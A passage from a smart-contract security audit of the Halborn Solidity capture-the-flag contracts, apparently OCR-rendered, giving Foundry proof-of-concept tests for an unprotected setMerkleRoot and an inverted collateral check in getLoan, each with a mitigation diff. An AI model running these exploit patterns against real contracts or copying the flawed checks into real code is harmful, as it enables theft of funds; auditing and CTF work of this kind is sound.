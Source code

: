     bytes32 root = m.getRoot(data);
    bytes32[] memory proof = m.getProof(data, 0);

    //Alice simply calls the setMerkleRoot function with the merkle root she just created
    //and then she calls the mintAirdrops function with the correct NFT ID and the merkle proof
    vm.startPrank(ALICE);
    nft.setMerkleRoot(root);
    nft.mintAirdrops(1, proof);
    vm.stopPrank();

    assertEq(nft.ownerOf(1), ALICE);
}


Recommended Mitigation Steps:

Add the onlyOwner access control modifier to the setMerkleRoot function: 

- function setMerkleRoot(bytes32 merkleRoot_) public {
+ function setMerkleRoot(bytes32 merkleRoot_) public onlyOwner {



H04 : Logical error in HalbornLoans::getLoan allows anyone to take out a loan without the need to provide any collateral  

Risk: High

Link: https://github.com/HalbornSecurity/CTFs/blob/e0e91e535617f9ed3bfeb5db740e7c9782dca1ee/HalbornCTF_Solidity_Ethereum/src/HalbornLoans.sol#L60

Description:

The require statement in the getLoan function erroneously evaluates the amount of a loan a user can take out, allowing anyone to mint the maximum amount of Halborn tokens without providing any collateral. 


POC:

function test_AnyoneCanGetAnUnlimitedLoan() public {
    uint256 freeLoan = type(uint256).max;

    vm.prank(ALICE);
    loans.getLoan(freeLoan);

    assertEq(token.balanceOf(ALICE), freeLoan);
}

Recommended Mitigation Steps:

Modify the require statement in the getLoan function:

- require(totalCollateral[msg.sender] - usedCollateral[msg.sender] < amount, "Not enough collateral");
+ require(totalCollateral[msg.sender] - usedCollateral[msg.sender] >= amount, "Not enough collateral");


H05 : Missing implementation of onERC721Received in the HalbornLoans contract 

Risk: High
